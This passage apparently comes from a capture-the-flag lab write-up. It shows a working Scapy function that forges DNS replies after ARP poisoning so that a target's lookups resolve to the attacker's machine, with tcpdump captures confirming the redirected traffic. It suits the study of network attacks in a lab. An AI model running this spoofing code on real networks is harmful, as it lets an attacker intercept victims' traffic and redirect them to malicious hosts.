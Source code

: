 ## DNS poisoning
Now we verify that the ARP poisoning is taking place and the type of traffic the target machine is sending with `tcpdump`.
```
guest@29847c69ad6a:~$ tcpdump -n 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:16:15.602338 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:16:15.618236 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
04:16:15.646731 IP 10.6.6.35.22953 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
```
Now we modify the DNS poisoning script with the information we already know so it respond to all DNS requests giving our own machin IP and MAC addresses as destination.

### Modified values for DNS poisoning
```ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    dstport=packet[IP][UDP].sport
    srcport=packet[IP][UDP].dport
    dstmac=packet[Ether].src
    srcmac=packet[Ether].dst
    eth = Ether(src=srcmac, dst=dstmac)   # need to replace mac addresses
    ip  = IP(dst="10.6.6.35", src=ipaddr_we_arp_spoofed)             # need to replace IP addresses
    udp = UDP(dport=dstport, sport=srcport)                             # need to replace ports
    dns = DNS(
        # MISSING DNS RESPONSE LAYER VALUES
        id=packet[DNS].id, qr=1, opcode=0,
        aa=1, tc=0, rd=1, ra=1, z=0, ad=0, rcode=0,
        qdcount=1, ancount=1, nscount=0, arcount=0, 
        qd=DNSQR(qname=packet[DNS].qd.qname, qtype='A', qclass=1),
        an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass=1,
        ttl=600, rdata="10.6.0.2")
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
```
## Verify incoming traffic
Now we run the DNS poisoning script in another pane and verify that both the ARP and the DNS poisoning attacks are working.
```
guest@29847c69ad6a:~$ tcpdump -n src host 10.6.6.35
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:32:19.882406 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:32:20.481564 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [S.], seq 4256394238, ack 32042649, win 65160, options [mss 1460,sackOK,TS val 626668882 ecr 2887327827,nop,wscale 7], length 0
04:32:20.482458 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 518, win 506, options [nop,nop,TS val 626668883 ecr 2887327828], length 0
04:32:20.483909 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1:1514, ack 518, win 506, options [nop,nop,TS val 626668884 ecr 2887327828], length 1513
04:32:20.484946 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1514:1769, ack 598, win 506, options [nop,nop,TS val 626668885 ecr 2887327830], length 255
04:32:20.485190 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1769:2024, ack 810, win 505, options [nop,nop,TS val 626668886 ecr 2887327831], length 255
04:32:20.488384 IP 10.6.6.35.45802 > 10.6.0.2.80: Flags [S], seq 1443649395, win 64240, options [mss 1460,sackOK,TS val 626668889 ecr 0,nop,wscale 7], length 0
04:32:20.489449 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [FP.], seq 2024:2244, ack 810, win 505, options [nop,nop,TS val 626668890 ecr 2887327831], length 220
04:32:20.490952 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 811, win 505, options [nop,nop,TS val 626668891 ecr 2887327836], length 0
```
